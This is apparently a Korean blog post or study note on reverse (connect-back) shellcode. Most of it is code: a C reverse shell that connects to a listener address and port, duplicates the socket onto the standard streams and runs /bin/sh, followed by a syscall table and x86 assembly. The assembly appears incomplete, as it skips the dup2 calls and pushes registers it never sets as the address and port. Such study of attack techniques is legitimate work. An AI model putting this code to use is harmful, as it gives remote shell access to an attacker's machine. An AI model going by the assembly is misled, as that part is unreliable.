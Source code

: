 ```yaml
---
title: Reverse shellcode (Connect-Back shellcode)
date: 2019-01-12 15:00:53
categories:
- Shellcode Exploit
- Reverse shellcode
tags:
- Reverse shellcode
- Connect-Back shellcode
---
```


공격자에게 연결 요청하는 shellcode



```c
#include <stdio.h>
#include <unistd.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
 
int main(void)
{
        int i, server_sockfd;
        socklen_t socklen;
        struct sockaddr_in server_addr; // 서버 정보 구조체
 
        char *argv[] = { "/bin/sh", NULL};
        server_addr.sin_family = AF_INET; // 주소 형식
        server_addr.sin_port = htons(2345); // port
        server_addr.sin_addr.s_addr = inet_addr("127.0.0.1"); // address
        // socket fd 생성
        server_sockfd = socket( AF_INET, SOCK_STREAM, 0 );
    	// 서버에 접속
        connect(server_sockfd, (struct sockaddr *)&server_addr, sizeof(server_addr));
 		// socket 함수에 의해 생성된 표준 스트립 fd 복제(링크)
        for(i = 0; i <= 2; i++)
                dup2(server_sockfd, i);
 		// shell 실행
        execve( "/bin/sh", argv, NULL );
}
```



| function | sysnum(eax) | subcallnum(ebx) | args(ecx)                            | edx  |
| -------- | ----------- | --------------- | ------------------------------------ | ---- |
| socket   | 102 (0x66)  | 1               | AF_INET = 2, SOCKET_STREAM = 1, 0    | NULL |
| connect  | 102 (0x66)  | 3               | sockfd, sockaddr, len(sockaddr) = 16 |      |
| dup2     | 63 (0x3f)   | sockfd          | fd=0,1,2                             |      |
| execve   | 11          | "/bin/sh"       | {"/bin/sh", NULL}                    | NULL |



```asm
mov al, 0x66
xor ebx, ebx
cdq
inc ebx
push edx
push ebx
push 0x2
mov ecx, esp
int 0x80

mov al, 0x66
push ebp
push di
inc ebx
push bx
mov ecx, esp
push 0x10
push ecx
push edx
mov ecx, esp
inc ebx
int 0x80

push edx
push 0x68732f2f
push 0x6e69622f
mov ebx, esp
mov eax, edx
mov al, 0xb
int 0x80
```



reference

​	https://www.lazenca.net/display/TEC/04.Reverse+Shellcode

​	https://systemoverlord.com/2018/10/30/understanding-shellcode-the-reverse-shell.html

​	http://d4m0n.tistory.com/93





